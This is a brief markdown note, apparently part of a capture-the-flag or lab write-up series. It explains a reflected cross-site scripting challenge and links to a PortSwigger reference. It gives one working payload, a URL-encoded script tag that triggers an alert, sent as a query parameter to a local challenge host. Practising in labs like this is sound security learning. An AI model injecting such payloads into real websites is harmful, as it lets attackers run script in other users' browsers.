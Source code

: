 # XSS 3

[Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)

Send the script (AS IN [xss 2](./XSS%202.md)) as a url parameter

```text
http://challenge.localhost/?msg=%3Cscript%3Ealert%28%22PWNED%22%29%3C%2Fscript%3E
```
